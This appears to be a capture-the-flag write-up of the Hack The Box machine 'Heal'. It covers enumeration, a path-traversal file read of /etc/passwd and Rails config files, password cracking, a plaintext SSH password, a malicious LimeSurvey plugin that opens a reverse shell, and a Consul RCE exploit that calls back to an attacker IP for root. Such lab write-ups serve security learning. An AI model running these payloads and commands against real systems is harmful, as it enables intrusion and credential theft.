 # Heal

```
Difficulty: Medium
Operating System: Linux
Hints: True
```

##  Summary

| Step | User / Access | Technique Used                      | Result                                                                                     |
| :--- | :------------ | :---------------------------------- | :----------------------------------------------------------------------------------------- |
| 1    | `N/A`         | Port Scanning & Service Enumeration | Discovered HTTP (80) and SSH (22) open.                                                    |
| 2    | `N/A`         | Subdomain Enumeration               | Found `api.heal.htb` and `take-survey.heal.htb`.                                           |
| 3    | `N/A`         | Directory Fuzzing                   | Discovered admin panel and phpMyAdmin directories.                                         |
| 4    | `N/A`         | Arbitrary File Read                 | Accessed `/etc/passwd`, Rails `database.yml`, and SQLite DB to gather usernames/passwords. |
| 5    | `ron`         | Credential Use / SSH Login          | Logged in via SSH using password from database hash.                                       |
| 6    | `www-data`    | LimeSurvey RCE Plugin               | Uploaded malicious plugin, obtained webshell, and retrieved database config.               |
| 7    | `ron`         | SSH Local Port Forwarding           | Forwarded internal Consul port 8500 to local machine.                                      |
| 8    | `root`        | Consul v1.19.2 RCE                  | Exploited remote code execution to obtain root shell.                                      |


## Nmap Enumeration

```bash
(myenv)─(xpl0riz0n__XPl0RIz0n)-[~/ctf_OpenVPN] 
❯ nmap -sSCV -Pn heal.htb
````

**Nmap Results:**

| Port   | State | Service | Version                          |
| ------ | ----- | ------- | -------------------------------- |
| 22/tcp | open  | ssh     | OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 |
| 80/tcp | open  | http    | nginx 1.18.0                     |

* HTTP title: `Heal`
* Service Info: Linux OS detected
* CPE: `cpe:/o:linux:linux_kernel`

**Observation:** Only SSH and HTTP open; web server appears to host multiple subdomains.

---

## Subdomain Enumeration

```bash
ffuf -u http://heal.htb/ -w ./fuzzDicts/subdomainDicts/main.txt -H "Host:FUZZ.heal.htb" -mc 200
```

**Discovered subdomains:**

* `api.heal.htb`
* `take-survey.heal.htb`

Add discovered subdomains to `/etc/hosts`:

```text
10.10.11.46 api.heal.htb
10.10.11.46 take-survey.heal.htb
```

**Additional observation:** `/surveyA` route under `take-survey.heal.htb`.

---

## Directory Discovery (Dirsearch)

```bash
dirsearch -u "http://take-survey.heal.htb/index.php/" -t 50 -i 200
```

**Interesting directories found:**

| Directory                             | Notes                                        |
| ------------------------------------- | -------------------------------------------- |
| `/index.php/admin/mysql/index.php`    | Admin login page redirects to authentication |
| `/index.php/apc/index.php`            | Accessible                                   |
| `/index.php/pma/index.php`            | phpMyAdmin page                              |
| `/index.php/web/phpMyAdmin/index.php` | phpMyAdmin page                              |

* Admin login interface:
  `http://take-survey.heal.htb/index.php/admin/authentication/sa/login`

---

## Arbitrary File Reading

1. Register a user and access `/resume` page.
2. Intercept **Export as PDF** requests in Burp Suite.
3. Analyze the `/download` request; found **arbitrary file read vulnerability**:

```http
GET /download?filename=../../../../../etc/passwd
```

**Results:** Found usernames: `ralph`, `ron`.

4. Rails config file found:

```http
GET /download?filename=../../config/database.yml
GET /download?filename=../../storage/development.sqlite3
```

* Retrieved Ralph’s password hash from SQLite database.
* Cracked with **John**:

```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

* Successfully obtained Ralph’s password hash.
* Note: Ralph’s hash allowed **Ron** to log in via SSH.

**SSH Login:**

```text
username: ron
password: AdmiDi0_pA$$w0rd
```

---

## LimeSurvey RCE

1. Found **LimeSurvey RCE** exploit on GitHub: [Y1LD1R1M-1337 / Limesurvey-RCE](https://github.com/Y1LD1R1M-1337/Limesurvey-RCE)
2. Modifications required:

   * Set `compatibilityversion` to match LimeSurvey v6.0
   * Configure **SHELL** with attacker's IP and port
3. Package exploit:

```bash
zip z0n_zip config.xml php-rev.php
```

4. Upload and activate plugin via:

```
http://take-survey.heal.htb/upload/plugins/z0n_hacker/php-rev.php
```

5. Spawn a reverse shell:

```bash
python3 -c "import pty; pty.spawn('/bin/bash')"
```

* Access configuration file: `/var/www/limesurvey/application/config/config.php`
* Retrieved database username and password.

**Observation:** Only user `ralph` exists in database, but SSH login works for `ron` using the same password.

---

## Privilege Escalation

1. Upload **LinPEAS.sh** for enumeration.
2. Forward internal port 8500 via SSH:

```bash
ssh -L 8500:127.0.0.1:8500 ron@heal.htb
```

3. Found **HashiCorp Consul v1.19.2** running.
4. Search for known exploits → **RCE exploit**:

* Exploit-DB: `Hashicorp Consul v1.0 - Remote Command Execution (RCE)`
* Use local port 8500 to execute payload:

```bash
python exploit.py 127.0.0.1 8500 10.10.16.29 6666 0
```

* Listener receives a reverse shell.

* ACL token parameter ignored locally → exploit succeeds.

* Achieved **root shell** via Consul RCE.

---

**Takeaways:**

* Carefully inspect file download/export functionality for path traversal vulnerabilities.
* Rails configuration files can leak critical database credentials.
* Malicious plugin upload and webshells are common post-auth attack vectors.
* Internal services like Consul can provide easy privilege escalation if exposed.
